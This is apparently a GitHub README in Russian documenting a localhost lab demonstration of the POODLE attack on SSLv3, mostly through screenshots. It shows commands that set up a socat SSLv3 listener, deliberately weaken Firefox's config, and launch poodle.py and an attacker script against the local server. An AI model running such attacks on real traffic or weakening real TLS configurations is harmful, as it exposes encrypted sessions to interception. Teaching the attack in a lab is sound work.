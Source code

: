 # showcase-of-ssl
# установка ssl
apt-get install openssl
# генерируем ключ 
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/07e50593-2449-4b7d-9237-05ad54894b53)

# создаем свой мини сайт
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/21f58e24-5dc3-44ae-8923-34bbf951e4b6)


# устанавливаю уязвимость в конфиге браузера firefox
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/64956cb1-ffe1-43bc-a49d-1dd40c78476d)

# создание связи между сервером и ssl listener
socat -v -x OPENSSL-LISTEN:4433,verify=0,method=SSLv3,cert=cert-poodle.pem,key=key-poodle.pem,reuseaddr,fork TCP:localhost:4080

# для использования стандартных правил iptables
./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443

# создание 3х терминалов 
./poodle-dev.sh httpserver
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/777ff6b4-5a38-4dde-9d78-234df41026e7)

./poodle-dev.sh sslserver
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/94165ddd-0219-4f11-b9ae-ffca19f57822)

./poodle-dev.sh attacker-nodebug

# подтверждаем самостоятельно сделанные сертификаты 
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/383beaf5-7389-4eae-b2e0-b14a51d37307)
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/a541d75e-43cf-4971-b907-c84e7c5408f0)


# проводим свою атаку
$ ./poodle.py --target-port 4433 --start-offset 384 https://localhost:8443
![image](https://github.com/razuwaikin/showcase-of-ssl/assets/79261812/9f7c682c-653d-448f-a1cf-90ed5fa0de34)

